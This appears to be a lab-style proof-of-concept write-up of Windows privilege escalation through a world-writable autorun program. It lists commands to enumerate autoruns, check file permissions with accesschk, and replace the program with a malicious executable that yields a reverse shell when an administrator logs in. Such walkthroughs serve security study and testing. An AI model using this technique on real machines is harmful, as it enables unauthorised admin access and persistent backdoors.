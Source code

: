# Vulnerability Overview


# POC
This exploitation was done as a white box test, where we had credentials to a valid user account, and from there , try to see how  we can exploit the windows machine.

### Initial Access
The machine 
![Screenshot from 2025-03-19 08-32-37](https://github.com/user-attachments/assets/874bcd58-703c-443d-915c-5c0a721b41ae)


### Exploitation


Then using the following command, i was able to get the (Autoruns)
    
    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
![image](https://github.com/user-attachments/assets/779f48f7-971d-4c6a-8532-1b265bea0115)

or
                                    
    wmic startup get caption, command
![image](https://github.com/user-attachments/assets/30030100-2834-4461-acb2-98a0282ca71c)

Next, tried getting the access on this autoruns using the following command 

    C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
and this gave the result that `Everyone` can write into the file
![image](https://github.com/user-attachments/assets/7244ad55-a8a3-43d1-93f6-fe3c2f315049)


Since there's a write access for everyone, I then continued to replace the originnal program.exe with a malicious file called esc.exe 

        copy C:\Users\user\esc.exe "C:\Program Files\Autorun Program\program.exe" /

![image](https://github.com/user-attachments/assets/fff7106d-aad4-4e60-a244-588fc87cd278)



The next thing is to wait for an admin to try to log in to the machine to trigger the malicious file, and get a reverse shell

![image](https://github.com/user-attachments/assets/320ae655-96d5-403c-b4ed-49a2161825fd)




![image](https://github.com/user-attachments/assets/59a4dc95-0765-4517-a87c-03cb5a35e4ca)

    
    
